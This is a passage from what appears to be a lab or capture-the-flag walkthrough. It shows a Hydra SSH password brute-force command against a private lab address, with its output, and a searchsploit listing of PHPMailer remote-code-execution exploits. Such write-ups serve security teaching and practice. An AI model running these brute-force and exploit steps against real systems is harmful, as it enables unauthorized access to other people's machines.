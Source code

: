 ```
$ hydra -L users.txt -P /usr/share/wordlists/rockyou.txt  -e nsr -o hydra.log -t8 -f ssh://192.168.1.23
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-03-17 19:32:36
[DATA] max 8 tasks per 1 server, overall 8 tasks, 28688804 login tries (l:2/p:14344402), ~3586101 tries per task
[DATA] attacking ssh://192.168.1.23:22/
```
<p>
Last time we got a password in seconds, but no such luck this time. Lets move onto our CVE.
</p>

```
$ searchsploit phpmailer
----------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                           |  Path
                                                                                         | (/usr/share/exploitdb/)
----------------------------------------------------------------------------------------- ----------------------------------------
PHPMailer 1.7 - 'Data()' Remote Denial of Service                                        | exploits/php/dos/25752.txt
PHPMailer < 5.2.18 - Remote Code Execution (Bash)                                        | exploits/php/webapps/40968.php
PHPMailer < 5.2.18 - Remote Code Execution (PHP)                                         | exploits/php/webapps/40970.php
PHPMailer < 5.2.18 - Remote Code Execution (Python)                                      | exploits/php/webapps/40974.py
PHPMailer < 5.2.19 - Sendmail Argument Injection (Metasploit)                            | exploits/multiple/webapps/41688.rb
PHPMailer < 5.2.20 - Remote Code Execution                                               | exploits/php/webapps/40969.pl
PHPMailer < 5.2.20 / SwiftMailer < 5.4.5-DEV / Zend Framework / zend-mail < 2.4.11 - 'AI | exploits/php/webapps/40986.py
PHPMailer < 5.2.20 with Exim MTA - Remote Code Execution                                 | exploits/php/webapps/42221.py
PHPMailer < 5.2.21 - Local File Disclosure                                               | exploits/php/webapps/43056.py
WordPress PHPMailer 4.6 - Host Header Command Injection (Metasploit)                     | exploits/php/remote/42024.rb
----------------------------------------------------------------------------------------- ----------------------------------------

```

![](/img/raven2_phpmailercve.png)

